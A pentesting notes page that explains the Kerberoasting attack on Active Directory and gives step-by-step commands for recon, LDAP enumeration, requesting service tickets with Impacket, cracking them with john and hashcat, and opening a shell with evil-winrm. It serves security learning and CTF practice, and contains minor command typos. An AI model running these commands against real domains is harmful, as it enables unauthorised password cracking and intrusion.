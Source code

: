 # Kerberoast

## Theory

When asking the KDC (Key Distribution Center) for a Service Ticket (ST), the requesting user needs to send a valid TGT (Ticket Granting Ticket) and the service name (`sname`) of the service wanted. If the TGT is valid, and if the service exists, the KDC sends the ST to the requesting user.

Multiple formats are accepted for the `sname` field: servicePrincipalName (SPN), sAMAccountName (SAN), userPrincipalName (UPN), etc. (see [Kerberos tickets](https://www.thehacker.recipes/a-d/movement/kerberos#tickets)).

The ST is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a service (by its SAN or SPN), he can request a ST for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline. This is Kerberoasting.



***

## Practical

{% hint style="info" %}
Unlike [ASREProasting](https://www.thehacker.recipes/a-d/movement/kerberos/asreproast), this attack can only be carried out with a prior foothold (valid domain credentials), except in the [Kerberoasting without pre-authentication](https://www.thehacker.recipes/a-d/movement/kerberos/kerberoast#kerberoast-wo-pre-authentication) scenario.
{% endhint %}

### Recon

```
sudo nmap -sS ctf01.root-me.org
```

### User Enumeration

#### LDAP

```
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

### Request ST

{% hint style="info" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) (Python) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials.
{% endhint %}

{% hint style="info" %}
The Kerberoasting attack can be conducted without knowing any SPN of the target account, since a service ticket can be request for as long as the service's SAN (`sAMAccountName`) is known. ([swarm.ptsecurity.com](https://swarm.ptsecurity.com/kerberoasting-without-spns/))

Nota bene, Kerberos can deliver service tickets even if the service has no SPN at all, but then the service's SAN must end with `$`, and in this case it's hard to know for sure if the service's password is defined by a human. Kerberoast attacks usually target user accounts with at least one SPN (`servicePrincipalName`) since they probably have human-defined passwords (sources: [Twitter](https://twitter.com/SteveSyfuhs/status/1613956603807690753) and [\[MS-KILE\] section 3.3.5.1.1](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-kile/a7ad31b0-37a4-4344-b9a7-01d4d086097e)).
{% endhint %}

#### Impacket

For all users

```
python3GetUserSPNs.py -outputfile ~/Desktop/kerberoastables.txt -dc-ip <Host> '<domain>/<username>:<username>' -request
```

For specific user

```
python3 GetUserSPNs.py -dc-ip <Host> '<domain>/<username>:<password>' -request-user <name> -outputfile ~/Desktop/kerberos.txt
```

### Crack Hash

#### John

```
sudo john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt ~/Desktop/kerberos.txt
```

#### Hashcat

```
hashcat -m 13100 kerberoastables.txt $wordlist
```

### Sync Local Time with the Server

{% hint style="info" %}
Error: Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great)\
\
Note: If you get the above error while requesting a ST then you need to sync your local machine time with that of the remote server time.
{% endhint %}

```
sudo timedatectl set-ntp off
sudo rdate -n <server ip>

// Turn on ntp
sudo timedatectl set-ntp on
```

### Get Shell Access

{% hint style="info" %}
For getting the shell access, the port 445 in the server need to be open.
{% endhint %}

```
sudo docker run --rm -ti --name evil-winrm  oscarakaelvis/evil-winrm -i <Host IP> -u <username> -p '<password>'
```



***

## REFERENCES

* [https://www.thehacker.recipes/a-d/movement/kerberos/kerberoast](https://www.thehacker.recipes/a-d/movement/kerberos/kerberoast)
* [https://nored0x.github.io/red-teaming/Kerberos-Attacks-Kerbroasting/](https://nored0x.github.io/red-teaming/Kerberos-Attacks-Kerbroasting/)
* [https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069](https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069)
